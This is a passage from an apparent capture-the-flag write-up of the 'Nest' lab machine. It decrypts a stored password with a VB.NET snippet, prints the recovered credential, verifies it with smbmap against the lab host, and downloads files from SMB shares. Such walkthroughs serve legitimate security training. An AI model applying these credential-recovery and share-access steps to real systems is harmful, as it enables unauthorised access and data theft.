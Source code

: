 ```


End Class

    

    Sub Main()
        Dim test As New SsoIntegration With {.Username = "c.smith", .Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")}

    End Sub

End Class
```

For some reason it did not run. No online compilers would accept the imports except https://dotnetfiddle.net/#

When I ran it on dotnetfiddle I recieved: `xRxRxPANCAK3SxRxRx`

I verified these creds with smbmap:

```
root@kali:/mnt/smb/IT# smbmap -H 10.129.114.52 -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'
[+] IP: 10.129.114.52:445       Name: 10.129.114.52                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
root@kali:/mnt/smb/IT# 
```


I go into the Users Disk with this user, and retrieve the user.txt flag. There was also a HQK Reporting folder. With an interesting exe file.

```
smb: \C.Smith\HQK Reporting\> recurse on
smb: \C.Smith\HQK Reporting\> prompt off
smb: \C.Smith\HQK Reporting\> mget *
getting file \C.Smith\HQK Reporting\AD Integration Module\HqkLdap.exe of size 17408 as HqkLdap.exe (122.3 KiloBytes/sec) (average 122.3 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt of size 0 as Debug Mode Password.txt (0.0 KiloBytes/sec) (average 68.8 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\HQK_Config_Backup.xml of size 249 as HQK_Config_Backup.xml (2.2 KiloBytes/sec) (average 48.4 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\> ^C

root@kali:/home/kali/htb/Nest# cat HQK_Config_Backup.xml 
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>root@kali:/home/kali/htb/Nest# 
``` 
